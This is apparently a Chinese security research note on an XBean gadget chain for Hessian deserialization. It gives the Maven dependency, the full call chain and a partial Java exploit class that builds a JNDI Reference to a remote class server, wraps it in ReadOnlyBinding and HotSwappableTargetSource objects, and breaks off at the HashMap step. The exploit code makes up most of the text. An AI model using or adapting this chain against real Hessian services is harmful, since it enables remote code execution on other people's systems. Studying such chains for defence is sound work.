 ### XBean 链

依赖

```bash
<dependency>
    <groupId>org.apache.xbean</groupId>
    <artifactId>xbean-naming</artifactId>
    <version>4.24</version>
</dependency>
```

#### 利用链

```bash
NamingManager.getObjectFactoryFromReference() (javax.naming.spi)
NamingManager.getObjectInstance() (javax.naming.spi)
ContextUtil.resolve()   (org.apache.xbean.naming.context)// 关键点
ContextUtil$ReadOnlyBinding.getObject() (org.apache.xbean.naming.context)// 关键点
Binding.toString() (com.caucho.naming)     // 关键点
XString.equals() (com.sun.org.apache.xpath.internal.objects)
HotSwappableTargetSource.equals()
HashMap.putVal()
HashMap.put()
MapDeserializer.readMap()
SerializerFactory.readMap()
Hessian2Input.readObject()
```

#### EXP

```bash
package org.dili.hessian;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.xbean.naming.context.WritableContext;
import org.springframework.aop.target.HotSwappableTargetSource;
import javax.naming.Context;
import javax.naming.Reference;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.util.HashMap;

public class XbeanHessian {
    public static void main(String[] args) throws Exception {
        String refAddr = "http://127.0.0.1:8888/";
        String refClassName = "test";

        Reference ref = new Reference(refClassName, refClassName, refAddr);
        WritableContext writableContext = new WritableContext();

        // 创建ReadOnlyBinding对象
        String classname = "org.apache.xbean.naming.context.ContextUtil$ReadOnlyBinding";
        Object readOnlyBinding = Class.forName(classname).getDeclaredConstructor(String.class, Object.class, Context.class).newInstance("aaa", ref, writableContext);

        // 创建XString
        XString xString = new XString("bbb");

        HotSwappableTargetSource targetSource1 = new HotSwappableTargetSource(readOnlyBinding);
        HotSwappableTargetSource targetSource2 = new HotSwappableTargetSource(xString);

        //创建HashMap
```
